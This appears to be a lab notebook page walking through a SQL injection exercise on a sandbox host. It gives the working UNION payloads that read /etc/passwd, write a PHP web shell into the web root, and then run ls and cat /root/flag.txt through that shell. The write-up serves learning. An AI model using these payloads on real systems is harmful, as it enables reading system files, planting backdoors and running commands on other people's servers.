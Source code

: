 ![[Pasted image 20240822145516.png]]
Loading and copying `/etc/passwd` into `/tmp/test2.txt`
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, LOAD_FILE('/etc/passwd') INTO OUTFILE '/tmp/test2.txt'
```
Displays an error like it didnt work
![[Pasted image 20240822150350.png]]
Checking to see if `/tmp/test2.txt` got the `/etc/passwd` information
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, LOAD_FILE('/tmp/test2.txt')
```
But it did work
![[Pasted image 20240822150417.png]]
Placing a web shell with `'<?php exec($_GET["cmd"]); ?>'` into the web root `/var/www/html/shell.php`
```sql
http://sql-sandbox/extramile/index.php?id=2 UNION SELECT 1, '<?php exec($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'
```
![[Pasted image 20240822153403.png]]
Testing on the browser with `ls` command
```bash
http://sql-sandbox/extramile/shell.php?cmd=ls
```
able to see the directory contents
![[Pasted image 20240822152754.png]]
Grabbing the `/root/flag.txt` contents
```bash
http://sql-sandbox/extramile/shell.php?cmd=cat%20/root/flag.txt
```
![[Pasted image 20240822152852.png]]